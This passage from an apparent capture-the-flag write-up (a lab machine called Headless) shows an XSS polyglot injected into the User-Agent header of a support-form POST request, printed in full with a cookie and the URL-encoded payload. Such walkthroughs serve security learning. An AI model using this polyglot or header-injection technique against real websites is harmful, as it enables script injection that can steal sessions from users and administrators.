 
![Hacking attempt detected](/assets/img/Headless/Headless_03.png)

Seeing that the page said it was going to send my request headers to the administrator it occured to me that maybe i should do another xss payload inside one of the headers such as the user-agent. I then decided to put the same xss polyglot in the useragent to test if any of the alerts would render. I'd then capture the request and modify the useragent ending up with the following request.

```
POST /support HTTP/1.1
Host: 10.129.222.226:5000
User-Agent: jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 317
Origin: http://10.129.222.226:5000
Connection: close
Referer: http://10.129.222.226:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=test&lname=test&email=test%40me.com&phone=test&message=jaVasCript%3A%2F*-%2F*%60%2F*%5C%60%2F*%27%2F*%22%2F**%2F%28%2F*+*%2FoNcliCk%3Dalert%28%29+%29%2F%2F%250D%250A%250d%250a%2F%2F%3C%2FstYle%2F%3C%2FtitLe%2F%3C%2FteXtarEa%2F%3C%2FscRipt%2F--%21%3E%5Cx3csVg%2F%3CsVg%2FoNloAd%3Dalert%28%29%2F%2F%3E%5Cx3e%0D%0A
```
The moment after this we'd get our alert to trigger on the page.
